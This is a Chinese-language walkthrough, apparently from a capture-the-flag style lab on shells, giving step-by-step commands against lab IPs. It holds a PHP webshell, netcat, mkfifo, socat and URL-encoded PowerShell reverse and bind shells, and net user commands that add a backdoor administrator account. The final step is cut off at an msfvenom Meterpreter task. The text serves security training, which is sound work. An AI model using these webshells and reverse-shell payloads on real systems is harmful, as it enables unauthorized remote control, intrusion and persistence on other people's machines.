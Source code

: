 ### webshell

1. 尝试将 Webshel​​l 上传到Linux机器，然后使用以下命令：`nc <LOCAL-IP> <PORT> -e /bin/bash`将反向 shell 发送回您自己计算机上等待的侦听器。

  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=nc 10.10.21.196 1234 -e /bin/bash`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

2. 导航到/usr/share/webshells/php/php-reverse-shell.phpKali 并更改 IP 和端口，以将您的 tun0 IP 与自定义端口相匹配。设置 netcat 监听器，然后上传并激活 shell。
  - 连接ssh `ssh shell@10.10.149.6`
  - 执行 `mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
  - 执行 `nc 10.10.149.6 4444` 此处的ip是目标机的ip
  - 成功  

3. 在 Windows 目标上上传 Webshel​​l 并尝试使用 Powershell 获取反向 shell。
  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.194.117%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

4. 网络服务器正在以系统权限运行。创建一个新用户并将其添加到“管理员”组，然后通过 RDP 或 WinRM 登录。
  - 使用刚才获取的shell
  - `net user test test123 /add`               #添加新用户
    `net localgroup administrators test /add`  #添加用户到管理员组  
  - 使用新用户登录 `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.91.116 /u:test /p:'test123'`

5. 要求：尝试使用 socat 和 netcat 在 Windows 目标上获得反向和绑定 shell。
 netcat反向shell
    - 目标机ip：10.10.234.86    攻击机ip：10.10.249.251
    - Netcat反向shell, 在攻击者终端:`nc -lvnp 12345`
    - 然后使用 RDP 登录到目标的管理员账户,使用攻击机终端 通过RDP登录到目标系统的管理员账户
  `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.234.86 /u:Administrator /p:'TryH4ckM3!'`
    - 在 cmd 上输入以下内容:nc 10.10.249.251 12345 -e"cmd.exe"
    - 返回刚才创建的shell查看，成功建立netcat反向shell

  netcat绑定shell  
   - 现在正好相反，在目标机的cmd上启动一个 netcat 监听器: 
      `nc -lvnp 12345 -e "cmd.exe"  # -e和"cmd.exe"之间有空格和没有空格 执行结果一样`
   - 在攻击者的电脑上运行以下命令: `nc 10.10.234.86 12345`
   - 成功绑定shell  
   
 Socat绑定shell
  - 在目标机器的 cmd 上启动一个监听器（注意：socat监听器在执行监听时没有提示语）:   
  `socat TCP-L:12345 EXEC:powershell.exe,pipes`
  - 然后在攻击者的电脑上  
  `socat TCP:10.10.234.86:12345 -`
  - 成功绑定shell  

 Socat反向shell
  - 在攻击者的终端上设置socat监听器（注意：socat监听器在执行监听时没有提示语）:  
  `socat TCP-L:12345 -`
  - 然后在目标机器的 cmd 中运行以下命令
  `socat TCP:10.10.249.251:12345 EXEC:powershell.exe,pipes`
  - 成功建立Socat反向shell  

6. 使用 msfvenom 创建 64 位 Windows Meterpreter shell 并将其上传到 Windows Target。激活 shell 并使用 multi/handler 捕获它。尝试一下这个 shell 的功能。
   